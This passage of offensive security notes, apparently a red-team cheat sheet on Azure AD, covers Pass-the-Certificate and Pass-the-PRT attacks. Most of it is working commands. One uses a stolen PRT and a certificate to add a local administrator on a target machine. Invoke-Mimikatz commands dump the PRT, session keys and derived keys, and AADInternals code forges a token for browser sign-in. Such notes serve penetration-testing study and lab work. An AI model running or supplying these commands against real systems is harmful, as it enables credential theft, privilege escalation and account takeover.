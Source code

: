 ```powershell
& 'C:\Program Files\Python39\python.exe' RequestCert.py --tenantId <TENANT ID> --prt <PRT VALUE> --userName <USERNAME> --hexCtx <CONTEXT KEY VALUE> --hexDerivedKey <DERIVED KEY VALUE>
```

#### Use certificate to add a user with administrative privileges

* Code is modified in the lab

* <https://github.com/morRubin/AzureADJoinedMachinePTC>

```powershell
python \AzureADJoinedMachinePTC\Main.py --usercert <PATH TO .pfx FILE> --certpass AzureADCert --remoteip <TARGET IP> --command "cmd.exe /c net user <USERNAME> <PASSWORD> /add /Y && net localgroup administrators <USERNAME> /add"
```

#### Use psremoting to access the machine

## Pass the PRT

### Todo if PRT is available

#### Extract PRT, Session key (keyvalue) and Tenant ID (Pass PRT Attack)

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap" ""exit"'
```

#### Extract context key, clearkey and derived key (Pass PRT Attack)

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "dpapi::cloudapkd /keyvalue:<KEY VALUE> /unprotect" "exit"'
```

#### Request access token (cookie) to all applications

```powershell
Import-Module .\AADInternals.psd1

$tempPRT = '<PRT>'
while($tempPRT.Length % 4) {$tempPRT += "="}
$PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($tempPRT))

$ClearKey = "<CLEARKEY>"
$SKey = [convert]::ToBase64String( [byte[]] ($ClearKey -replace '..', '0x$&,' -split ',' -ne ''))

New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey –GetNonce
```

#### Copy the value from above command and use it with a web browser
